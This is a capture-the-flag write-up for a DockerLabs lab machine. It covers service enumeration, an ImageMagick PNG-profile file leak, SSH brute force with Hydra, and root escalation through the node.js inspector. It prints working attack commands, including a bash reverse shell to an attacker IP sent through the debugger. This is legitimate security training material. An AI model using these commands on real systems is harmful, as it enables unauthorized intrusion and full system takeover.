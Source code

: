 ```yaml
---
author: Lenam
pubDatetime: 2024-07-22T15:22:00Z
title: WriteUp DebugMe - Dockerlabs
slug: debugme-writeup-dockerlabs-en
featured: false
draft: false
ogImage: "../../assets/images/debugme/OpenGraph.png"
tags:
  - writeup
  - dockerlabs 
  - LFI
  - nodejs
description:
  This cybersecurity challenge guides participants through a server intrusion. The process involves service enumeration, exploiting an LFI vulnerability, gaining SSH access via brute force, and escalating privileges through a node.js process. 
lang: en
--- 
```


This cybersecurity challenge, available on <a target="_blank" href="https://dockerlabs.es">DockerLabs</a> (El Pingüino de Mario), guides participants through a server intrusion. The process involves service enumeration, exploiting an LFI vulnerability, gaining SSH access via brute force, and escalating privileges through a node.js process to achieve root access. 

## Table of contents

## Enumeration

```bash
nmap -p- 172.17.0.2 -n -P
```

![nmap all ports](../../assets/images/debugme/image-1.png)

```bash
nmap -p22,80,443 -sVC -n -Pn 172.17.0.2
```

![nmap ports 22, 80 and 443](../../assets/images/debugme/image.png)

We visit the website on ports 80 and 443, and the same page appears. It seems to be a tool where we can select an image and the different size versions we want for the image.

![Resize image](../../assets/images/debugme/image-2.png)

When submitting the form with an image and different versions, it shows them on a page.

![Result](../../assets/images/debugme/image-3.png)

We do a bit of fuzzing on the web service using gobuster.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/ -x py,php,txt,db,htm,html,back -t 50 -k
```

We find the classic info.php, with PHP information.

![gobuster](../../assets/images/debugme/image-4.png)

In `/info.php`, we find a bunch of installed PHP extensions and a slightly outdated PHP version `PHP Version 7.2.24-0ubuntu0.18.04.3`.

We also see that the `GD` and `Image Magick` modules are installed, which may be used for the image transformation service.

## Intrusion

There are likely different ways to perform the intrusion; in this case, we opted for a possible LFI (I think this would be LFI, but I'm not sure) that occurs during ImageMagick transformation.

More information at:

- https://imagetragick.com/
- https://www.hackplayers.com/2023/02/imagemagick-la-vulnerabilidad-oculta.html

### LFI

Following the instructions from hackplayers, we install the necessary dependencies:

```bash
sudo apt install pngcrush imagemagick exiftool exiv2 -y
```

We use a PNG and add the profile field with the path we want to inject. This will create the pngout.png file.

![pngcrush](../../assets/images/debugme/image-5.png)

We check that it has been added correctly.

```bash
exiv2 -pS pngout.png
```

![alt text](../../assets/images/debugme/image-6.png)

Now we use the pngout.png image in the web service, select a size, and click on "Resize".

![Resize payload](../../assets/images/debugme/image-7.png)

The two images appear, we right-click on one and download it to our Kali, naming it resultado.png.

![alt text](../../assets/images/debugme/image-8.png)

We check if the data has leaked in the profile.

```bash
identify -verbose resultado.png
```

![alt text](../../assets/images/debugme/image-9.png)

It seems the data leaked correctly. We copy all the hexadecimal bytes from the profile and put them in a single line. Then, we include them in the following Python:

```bash
python3 -c 'print(bytes.fromhex("BYTES_IN_HEX").decode("utf-8"))'
```

And the result:

![alt text](../../assets/images/debugme/image-10.png)

Great, we now have an LFI, and we can see that there is a user named `lenam` and another named `application`.

### SSH Brute Force

If we try to look for other interesting files, we don't find anything. We attempt a brute force attack with the user `lenam` using Hydra.

```bash
hydra 172.17.0.2 ssh -t 64 -l lenam -P /usr/share/wordlists/rockyou.txt -f -vV
```

With a little patience, we find the SSH password for the user lenam.

![lenam ssh password](../../assets/images/debugme/image-11.png)

## Privilege Escalation

We access via SSH using the user `lenam` and the password `loverboy`.

![alt text](../../assets/images/debugme/image-12.png)

We see that we can run the command `/bin/kill` as root with lenam's password.

We also look at the processes that root is running and observe that a node.js process is being executed.

```bash
ps aux | grep root
```

![processes](../../assets/images/debugme/image-13.png)

We check if there are any open local ports and find ports 8000 and 9000.

```bash
netstat -ano | grep LISTEN
```

![ports](../../assets/images/debugme/image-14.png)

Port 8000 seems to be a node.js application.

```bash
curl 127.0.0.1:8000
```

![alt text](../../assets/images/debugme/image-15.png)

Since we can kill any process, we try to open the node.js debugger by sending a `SIGUSR1` signal to the node.js process. This should restart the node.js application with the debug port open (by default, port 9229) and accessible via websockets.

More information:

- https://nodejs.org/en/learn/getting-started/debugging
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse#starting-inspector-in-running-processes

To obtain the PID of the node.js process:

```bash
ps aux | grep node | grep root | awk '{print $2}'
```

The complete command:

```bash
sudo /bin/kill -s SIGUSR1 $(ps aux | grep node | grep root | awk '{print $2}')
```

We check if the debug and inspection port 9229 is now open.

![port 9229](../../assets/images/debugme/image-16.png)

Bingo! It worked. Now we enter the node.js application with the inspector.

```bash
node inspect 127.0.0.1:9229
```

![nodejs inspect](../../assets/images/debugme/image-17.png)

We listen with netcat.

```bash
nc -lvnp 5000
```

And we execute the following payload in the debug console, replacing the IP 10.0.2.15 with yours.

```javascript
exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/10.0.2.15/5000 0>&1\"')")
```

![alt text](../../assets/images/debugme/image-18.png)

Congratulations, we are now root.